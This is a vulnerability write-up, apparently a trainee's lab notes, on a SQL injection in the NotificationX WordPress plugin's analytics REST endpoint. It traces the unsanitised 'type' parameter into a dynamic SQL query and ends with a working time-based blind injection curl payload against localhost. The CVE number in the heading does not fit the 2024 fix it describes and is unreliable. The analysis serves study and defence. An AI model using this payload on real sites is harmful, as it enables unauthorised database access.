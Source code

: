 # TRAN CONG DANH - SVTT - Mentor: LUU VAN LAN - CVE-2019-1698 - Day Started: 30/07/2024
- Check the diff code betwween ver has vuln and ver of code with fix vuln:

**Code reference 1:** <https://plugins.trac.wordpress.org/changeset/3040809/notificationx/trunk/includes/Core/Rest/Analytics.php>
![image](https://github.com/user-attachments/assets/1922c3f4-7443-4723-b3d2-6aee7adc4510)


**Code reference 2:** <https://plugins.trac.wordpress.org/changeset/3040809/notificationx/trunk/includes/Core/Database.php>
![image](https://github.com/user-attachments/assets/715b4747-46ed-42d8-8112-be2a5d64a705)


Therefore, the following file is relevant to this CVE:

```
wp-content/plugins/notificationx/includes/Core/Rest/Analytics.php
```
Now, we will check the file might have vuln code:
![image](https://github.com/user-attachments/assets/6001cf4f-fbba-4686-a418-835e4219c04a)
Focus on the `insert_analytics()` function:
![image](https://github.com/user-attachments/assets/e6451538-1939-42c2-ad64-b439e4b51fc1)
It receives the `$request` (coming from the user) and extracts the `type` parameter.

Then, this value is then passed to the `CoreAnalytics::get_instance()->insert_analytics()` function:
![image](https://github.com/user-attachments/assets/e610daf2-bc69-4a4d-b4e5-12d360d2fcc1)

To trigger this code, we can notice the mapped route (from the `Analytics` class, inside the `register_routes()` function):

```
$this->namespace . '/' . $this->rest_base
```

And the constructor for the `Analytics` class reveals the values for the `namespace` and `rest_base` variables:

```
public function __construct() {
	$this->namespace = 'notificationx/v1';
	$this->rest_base = 'analytics';
	add_action('rest_api_init', [$this, 'register_routes']);
}
```

So, the relevant (vulnerable) code that accepts the user-supplied `type` parameter, can be reached via the following route:

```
notificationx/v1/analytics
```
But what's the method for exploiting and where is the SQL query for injection?

Since the user-supplied `type` parameter is passed to:

```
CoreAnalytics::get_instance()->insert_analytics( absint( $params['nx_id'] ), $type );
```

Locating this function:

![image](https://github.com/user-attachments/assets/f2ec69d3-f2f6-47aa-b523-b1a36970a386)
 Let's check this function code in the highlighted file:

`wp-content/plugins/notificationx/includes/Core/Analytics.php`**:**
![image](https://github.com/user-attachments/assets/f97acfc4-2865-4869-bb81-93b7aa7d767e)

If you are thinking that it the vulnerability lies in the `increment_count()` function, then you are absolutely on the right track!

Here's the `increment_count` function (and it has the `$type` parameter coming from the user):
![image](https://github.com/user-attachments/assets/3944bf4e-b9f9-4fca-a95c-b5b4d5bebf47)

This function in-turn calls `update_analytics()` function. Let's address for it:
![image](https://github.com/user-attachments/assets/7627a8fb-0d9a-42c8-bf5e-28f4718474ce)

![image](https://github.com/user-attachments/assets/5a15a5ef-594b-4f20-a990-d2ec63044c98)

The `update_analytics` function creates an SQL query dynamically and the unsanitized user-input is a part of it. Smells fishy? It should, because this is what causes the vulnerability.

The `$col` parameter corresponds to the `type` parameter sent by the user, in the HTTP request.

The `$table_name` is set to: `nx_stats`:

```
public function __construct() {
	global $wpdb;
	$this->wpdb          = $wpdb;
	self::$table_entries = $wpdb->prefix . 'nx_entries';
	self::$table_posts   = $wpdb->prefix . 'nx_posts';
	self::$table_stats   = $wpdb->prefix . 'nx_stats';
}
```
To identify the correct verb, I leveraged the WordPress REST API:

```
http://localhost/wp-json/
```
![image](https://github.com/user-attachments/assets/e4154d83-2aa5-452b-a148-42a20854a0a7)

The `/notificationx/v1/analytics` API route can be triggered by a `POST` request and we have to pass the `nx_id` (an integer) and (optionally) the `type` (a string).

Remember, that the analytics information was updated in the table named `nx_stats`, which we deduced earlier using these code snippets from `wp-content/plugins/notificationx/includes/Core/Database.php`:

```
public function __construct() {
	global $wpdb;
	$this->wpdb          = $wpdb;
	self::$table_entries = $wpdb->prefix . 'nx_entries';
	self::$table_posts   = $wpdb->prefix . 'nx_posts';
	self::$table_stats   = $wpdb->prefix . 'nx_stats';
}
```

```
$table_name = self::$table_stats;
```
![image](https://github.com/user-attachments/assets/9f376216-bf50-43e1-ba10-3c5a4fcafd5a)

# Triggering the vulnerable code path

Our plan is to see the constructed SQL query when we pass our payload in the request.

And now, we will send our `curl` (with the SQLi payload) request again:

```
time curl http://localhost:8080/wp-json/notificationx/v1/analytics -d 'nx_id=1337&type=clicks`=IF(SUBSTRING(version(),1,1)=5,SLEEP(10),null)-- -'
```
![image](https://github.com/user-attachments/assets/44a56fa0-caf5-4f18-be51-c44840e67d74)

